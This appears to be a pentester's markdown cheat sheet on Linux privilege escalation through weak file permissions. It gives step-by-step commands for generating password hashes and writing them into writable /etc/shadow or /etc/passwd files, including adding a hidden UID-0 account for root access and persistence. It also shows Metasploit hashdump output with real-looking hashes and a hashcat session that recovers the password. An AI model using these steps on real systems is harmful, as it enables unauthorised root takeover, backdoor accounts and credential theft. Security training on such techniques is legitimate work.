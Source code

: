 # Weak File Permissions

## 01 - Unix Shell

### 1.1 - Writable Shadow File

Nowadays most modern Linux servers and desktops currently are most up-to-date and I can say you'll rarely find it or not. Yet you can use this method as a persistence technique yet it's not OPSEC safe to do so but hey you'll might need it under certain circumstances.

- **Weak File Permissions - Writable `/etc/shadow`**

`$ cp /etc/shadow /tmp/shadow.bak && sudo chmod o+r /etc/shadow`

We have two ways to generate a sha512crypt hashed passwords:

- **Method 1**

`$ mkpasswd -m sha-512 newpass1234`

- **Method 2**

`$ python -c 'import crypt; print(crypt.crypt("newpass1234", "$6$salt"))'`

Then edit the shadow file `root:<sha512crypt_hash>:17298:0:99999:7:::` replace the old `<sha512crypt_hash>` which starts with $6$ into a new one that was previously generated.

Then try to authenticate and you're root.

`$ su root`

### 1.2 - Writable Passwd File

- **Weak File Permissions - Writable `/etc/passwd`**

`$ openssl passwd -1 thispass123`

For older linux systems

`$ openssl passwd -1 -salt new thispass123`

We have two ways to modify the `passwd` file:

- **Method 1**

Replace the letter 'x' for the newly generated salt hash for the `/etc/passwd`

`root:x:0:0:root:/root:/bin/bash`

Authenticate as root with the password

`$ su root`

- **Method 2**

Create a new account as root with the previous generated hashed password. Here's what the format looks like:

**Note:** replace `<new_hash>` with the hashed password

`systemadmin:<new_hash>:0:0:Sysadmin:/root:/bin/bash`

## 02 - Metasploit

```
meterpreter > run post/linux/gather/hashdump

[-] Failed to open file: /etc/security/opasswd: core_channel_open: Operation failed: 1
[+] root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:0:0:root:/root:/bin/bash
[+] TCM:$6$hDHLpYuo$El6r99ivR20zrEPUnujk/DgKieYIuqvf9V7M.6t6IZzxpwxGIvhqTwciEw16y/B.7ZrxVk1LOHmVb/xyEyoUg.:1000:1000:user,,,:/home/user:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt

$ sudo hashcat -a 0 -m 1800 /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt /usr/share/wordlists/rockyou.txt -O --force

$ sudo hashcat -a 0 -m 1800 /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt /usr/share/wordlists/rockyou.txt -O --force --show
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:password123
```

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)